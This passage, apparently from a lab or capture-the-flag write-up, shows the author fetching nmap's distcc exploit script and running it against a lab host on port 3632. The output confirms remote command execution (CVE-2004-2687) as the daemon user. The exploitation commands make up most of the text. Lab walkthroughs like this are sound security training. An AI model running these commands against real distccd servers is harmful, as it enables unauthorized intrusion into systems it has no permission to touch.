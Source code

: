 
I’ll download it into `/usr/share/nmap/scripts/`:

    
    
    root@kali# wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse
    --2020-04-07 14:38:26--  https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse
    Resolving svn.nmap.org (svn.nmap.org)... 45.33.49.119, 2600:3c01::f03c:91ff:fe98:ff4e
    Connecting to svn.nmap.org (svn.nmap.org)|45.33.49.119|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3519 (3.4K) [text/plain]
    Saving to: ‘/usr/share/nmap/scripts/distcc-exec.nse’
    
    /usr/share/nmap/scripts/distcc-exec.nse    100%[=======================================================================================>]   3.44K  --.-KB/s    in 0s      
    
    2020-04-07 14:38:27 (54.8 MB/s) - ‘/usr/share/nmap/scripts/distcc-exec.nse’ saved [3519/3519]
    

Now I can run it and get results:

    
    
    root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:38 EDT
    Nmap scan report for 10.10.10.3
    Host is up (0.014s latency).
    
    PORT     STATE SERVICE
    3632/tcp open  distccd
    | distcc-exec: 
    |   VULNERABLE:
    |   distcc Daemon Command Execution
    |     State: VULNERABLE (Exploitable)
    |     IDs:  CVE:CVE-2004-2687
    |     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
    |       Allows executing of arbitrary commands on systems running distccd 3.1 and
    |       earlier. The vulnerability is the consequence of weak service configuration.
    |       
    |     Disclosure date: 2002-02-01
    |     Extra information:
    |       
    |     uid=1(daemon) gid=1(daemon) groups=1(daemon)
    |   
    |     References:
    |       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
    |_      https://distcc.github.io/security.html
    